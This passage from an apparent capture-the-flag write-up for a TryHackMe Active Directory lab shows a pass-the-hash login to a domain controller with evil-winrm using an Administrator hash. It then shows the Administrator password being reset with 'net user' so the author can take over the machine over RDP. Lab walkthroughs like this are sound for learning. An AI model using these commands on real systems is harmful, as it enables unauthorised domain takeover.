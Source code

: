 ### Evil-WinRM

- - -

This is even easyer than `wmiexec.py`!!

```zsh
❯ evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

You only need to specify the domain (-i), the username (-u) and the hash (-H).

## Extra

- - -

We have pwned the whole DC, but we can do something else. We can see that `Administrator` has permissions to access the machine via `RDP`, so we can connect to the machine with a `GUI`!
First, we'll need to change the password to a new one that is easy to remember:

```zsh
*Evil-WinRM* PS C:\Users\Administrator\Documents> net user Administrator Password1
The command completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Now, let's connect with `xfreerdp` and we'll obtain a graphical interface as the DC's Administrator!!
